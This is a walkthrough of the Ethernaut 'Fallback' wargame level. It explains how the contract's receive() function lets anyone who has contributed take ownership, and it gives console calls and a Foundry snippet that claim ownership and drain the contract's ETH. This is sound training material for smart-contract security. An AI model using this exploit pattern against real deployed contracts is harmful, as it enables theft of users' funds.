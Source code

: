 # [Ethernaut 01 – Fallback walkthrough (YouTube)](https://www.youtube.com/watch?v=TQKj2xvsGec)

Here’s a detailed walkthrough for the Ethernaut **Fallback** challenge—Level 1. The goal is to **take control of the contract** and **drain its ETH** by exploiting its fallback logic.

---

## Contract Overview

Key parts of the `Fallback.sol` contract:

```solidity
mapping(address => uint) public contributions;
address public owner;

function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if (contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
    }
}

receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}

function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
}
```

* **Goal**: Become the owner, then call `withdraw()` to empty the contract. ([medium.com][1])
* **Owner changes options**:

    1. Via `contribute()`: only if your contribution exceeds the current owner's (impractical here). ([medium.com][1], [coinsbench.com][2])
    2. Via `receive()`: triggered when sending ETH directly, but **only if** you already have a contribution > 0. ([dev.to][3])

---

## Exploit Steps (Using Browser Console)

1. **Check current owner** (optional):

     ```js
     await contract.owner()
     ```

2. **Make a small contribution** (< 0.001 ETH) to register yourself:

     ```js
     await contract.contribute({ value: "1" }) // 1 wei is enough
     ```

     This satisfies the `contributions[msg.sender] > 0` requirement. ([dev.to][4])

3. **Trigger the fallback**

     ```js
     await contract.sendTransaction({ value: "1" })
     ```

     This invokes the `receive()` function with no data, passing the existing-contribution check and reassigning ownership to you. ([dev.to][4], [gist.github.com][5])

4. **Verify ownership**:

     ```js
     await contract.owner()
     ```

     Should now return your address.

5. **Withdraw all ETH**:

     ```js
     await contract.withdraw()
     ```

     As owner, you can successfully drain the entire balance.

---

## 🛠️ Alternative: Using Foundry Script

Setting up a script can automate the process:

```solidity
fallbackInstance.contribute{ value: 1 wei }();
address(fallbackInstance).call{ value: 1 wei }("");
fallbackInstance.withdraw();
```

🎯 This confirms you become owner and withdraw funds. ([gist.github.com][5], [coinsbench.com][2], [coinsbench.com][6])

---

## Final Summary

* **Contribute a tiny amount** via `contribute()` to satisfy the receive() requirement.
* **Trigger the fallback** by sending ETH directly to the contract address.
* **Ownership changes** to you.
* **Withdraw** all ETH using `withdraw()`.
* **Submit** the instance to complete the challenge.

---
